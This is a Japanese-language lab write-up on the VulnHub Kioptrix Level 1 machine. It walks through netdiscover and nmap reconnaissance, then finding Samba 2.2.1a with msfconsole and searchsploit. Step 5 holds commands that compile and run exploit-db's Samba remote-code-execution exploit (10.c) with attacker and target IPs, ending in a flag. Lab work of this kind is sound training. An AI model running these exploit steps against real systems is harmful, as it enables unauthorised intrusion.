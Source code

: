 ## Description
- Kioptrix: Level 1 (#1)を利用してバッファーオーバーフローによる特権昇格を学ぶ
- Kalilinuxを攻撃サーバとしてVM環境に構築。KioptrixもVM環境で構築する

### 参考情報
https://www.vulnhub.com/
https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

Kalilinuxの構築
https://qiita.com/y-araki-qiita/items/4621a21e9f0d2e38c331
Kiopritrixのサーバ構築
https://medium.com/@obikag/how-to-get-kioptrix-working-on-virtualbox-an-oscp-story-c824baf83da1

## 1, IPアドレスを特定する
- `netdiscover`コマンドにてIPを調査

## 2, 特定したIPに対してNmapスキャンを実行し、使用しているサービスを特定する
- `nmap`コマンドにて使用サービスを調査 

nmapの引数は100を超えるらしい...
https://ja.wikipedia.org/wiki/Nmap
```
$ sudo nmap -Pn 192.168.11.10
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 22:08 JST
Nmap scan report for 192.168.11.10
Host is up (0.00074s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:BA:2D:16 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.08 seconds
```
6つのポートが空いてるのを確認

- Nmapスキャンでもっと詳しく調べてみるO
```
$ sudo nmap -Pn -T4 -sV -A -v 192.168.11.10
```

## 3, スキャンした [PORT：139 SMB PROTOCOL]に注目し、脆弱性がないかチェックする
- `msfconsole`コマンドでペネストレーションテスト
```
```
sambaのバージョンが`Samba 2.2.1a`であることが確認出来た。

## 4, Samba 2.2.1aに脆弱性がないか調査
- `searchsploit samba 2.2`
```
```
2.2.8以下は `Remote Buffer Overflow`, `Remote Code Execution`の脆弱性があることが確認出来た。

## 5, Remote Code Executionを発生させる
```
$ cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./
$ gcc -o samba 10.c
$ sudo chmod 755 samba
$ ./samba
$ ./samba -b0 -c <Your IP> <Target IP>
```

## 6, ヒントにMailとあるのでmailコマンドで探索
```
mail
```
フラグをゲット！
